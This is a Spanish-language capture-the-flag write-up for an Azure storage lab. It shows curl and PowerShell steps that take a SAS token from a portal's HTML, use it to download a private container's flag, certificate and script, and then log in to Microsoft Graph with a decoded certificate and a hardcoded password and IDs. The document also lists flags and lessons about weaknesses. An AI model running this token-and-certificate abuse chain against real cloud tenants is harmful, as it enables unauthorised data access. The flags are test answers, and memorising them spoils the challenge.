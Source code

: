 # Challenge 01 - Azure Combined Storage & Identity Solution

## Descripción del Challenge

Este challenge combinado presenta **dos vectores de ataque** diferentes:

1. **Vector Básico**: Acceso directo a storage público → Flag: `CLD[b8c4d0f3-5g9e-5b2c-ad4f-8g3b6e9c7f5d]`
2. **Vector Avanzado**: Portal MediCloudX con SAS tokens → Flag: `CTF{m3d1cl0udx_4zur3_st0r4g3_s4s_t0k3n_3xf1ltr4t10n}`

---

## 🎯 Vector 1: Acceso Directo (Básico)

### Información Disponible
Con base en los outputs de Terraform:
```bash
azure_storage_website_endpoint = "https://ctf25sa[suffix].z13.web.core.windows.net/"
azure_flag_url = "https://ctf25sa[suffix].z13.web.core.windows.net/flag.txt"
```

### Solución Paso a Paso

**Paso 1: Acceder directamente a la flag**
```bash
# Método más simple - acceso web directo
curl https://ctf25sa[suffix].z13.web.core.windows.net/flag.txt
```

**Resultado esperado:**
```
CLD[b8c4d0f3-5g9e-5b2c-ad4f-8g3b6e9c7f5d]
```

---

## 🔬 Vector 2: MediCloudX Research Portal (Avanzado)

### Información Disponible
```bash
research_portal_url = "https://ctf25sa[suffix].blob.core.windows.net/research-portal/research-portal.html"
```

### Solución Paso a Paso

**Paso 1: Acceder al Portal de Investigación**
```bash
# Abrir el portal MediCloudX en el navegador
open https://ctf25sa[suffix].blob.core.windows.net/research-portal/research-portal.html
```

**Paso 2: Inspeccionar el Código Fuente**
```bash
# Descargar y examinar el HTML
curl https://ctf25sa[suffix].blob.core.windows.net/research-portal/research-portal.html > research-portal.html

# Buscar tokens SAS embebidos
grep -i "sas" research-portal.html
grep -i "token" research-portal.html
```

**Paso 3: Extraer el SAS Token**
En el código fuente, encontrarás una imagen con URL similar a:
```html
<img src="https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/close-up-doctor-holding-red-heart.jpg?sv=2022-11-02&ss=b&srt=co&sp=rl&se=2026-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=[SIGNATURE]" />
```

**Paso 4: Usar el SAS Token para Acceder al Container Privado**
```bash
# Extraer el SAS token de la URL de la imagen
SAS_TOKEN="sv=2022-11-02&ss=b&srt=co&sp=rl&se=2026-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=[SIGNATURE]"

# Listar archivos en el container privado
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research?restype=container&comp=list&${SAS_TOKEN}"
```

**Paso 5: Descargar Archivos Sensibles**
```bash
# Descargar la flag del container privado
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/flag.txt?${SAS_TOKEN}"

# Descargar el certificado base64
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/certificadob64delpfx.txt?${SAS_TOKEN}" > cert.b64

# Descargar el script PowerShell
curl "https://ctf25sa[suffix].blob.core.windows.net/medicloud-research/script.ps1?${SAS_TOKEN}" > script.ps1
```

**Paso 6: Usar PowerShell para Acceso Avanzado con Certificado**

```powershell
# Importar módulo de Azure Storage
Import-Module Az.Storage

# Configurar variables del storage account
$storageAccountName = "ctf25sace22f93a"  # Reemplazar con el nombre real
$sasToken = "sv=2018-11-09&sr=c&st=2024-01-01T00:00:00Z&se=2026-12-31T23:59:59Z&sp=rl&spr=https&sig=sa5HBK837Jxz8q%2B20G%2B%2Fl0Uvf3ExRMLlStgqA38Gj%2BM%3D"

# Crear contexto de storage con SAS token
$context = New-AzStorageContext -StorageAccountName $storageAccountName -SasToken $sasToken

# Listar archivos en el container privado
Get-AzStorageBlob -Container "medicloud-research" -Context $context

# Descargar archivos específicos
$destinationPath = "./"
Get-AzStorageBlobContent -Blob "certificadob64delpfx.txt" -Container "medicloud-research" -Destination $destinationPath -Context $context
Get-AzStorageBlobContent -Blob "flag.txt" -Container "medicloud-research" -Destination $destinationPath -Context $context
Get-AzStorageBlobContent -Blob "script.ps1" -Container "medicloud-research" -Destination $destinationPath -Context $context

# Decodificar el certificado PFX
$base64FilePath = "C:\Users\Gerh\Desktop\EKOPARTY\certificadob64delpfx.txt"
$base64Content = Get-Content -Path $base64FilePath -Raw
$pfxBytes = [System.Convert]::FromBase64String($base64Content)
$outputPfxPath = "C:\Users\Gerh\Desktop\EKOPARTY\certdecode.pfx"
[System.IO.File]::WriteAllBytes($outputPfxPath, $pfxBytes)

# Configurar variables para autenticación Azure AD
$TenantId = "c390256a-8963-4732-b874-85b7b0a4d514"  # Reemplazar con Tenant ID real
$ClientId = "639a3cfa-93f6-43bf-ab93-fc48757e5ed1"  # Reemplazar con Client ID real
$Password = "M3d1Cl0ud25!"
$certPath = "C:\Users\Gerh\Desktop\EKOPARTY\certdecode.pfx"

# Cargar certificado con contraseña
$clientCertificate = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 -ArgumentList $certPath, $Password

# Conectar a Microsoft Graph usando certificado
Connect-MgGraph -ClientId $ClientId -TenantId $TenantId -Certificate $clientCertificate

# Verificar conexión exitosa
Get-MgContext
```

**Resultado esperado:**
```
CTF{m3d1cl0udx_4zur3_st0r4g3_s4s_t0k3n_3xf1ltr4t10n}
```

---

## 📋 Resumen de Vulnerabilidades

### Vector 1 (Básico)
- **CWE-200**: Exposición de información sensible
- **Misconfiguration**: Container público sin restricciones

### Vector 2 (Avanzado)  
- **CWE-200**: SAS token expuesto en código cliente
- **CWE-732**: Permisos excesivos en SAS token
- **CWE-522**: Certificado almacenado en ubicación accesible
- **CWE-521**: Contraseña débil de certificado

---

## 🎯 Puntos de Aprendizaje

1. **Inspección de código fuente**: Siempre revisar HTML/JS por credenciales embebidas
2. **SAS Tokens**: Tokens con permisos excesivos y larga expiración son peligrosos
3. **Escalación de privilegios**: Un token de lectura puede llevar a acceso completo
4. **Certificados en storage**: Nunca almacenar certificados en ubicaciones accesibles
5. **Defensa en profundidad**: Un solo punto de falla puede comprometer todo el sistema
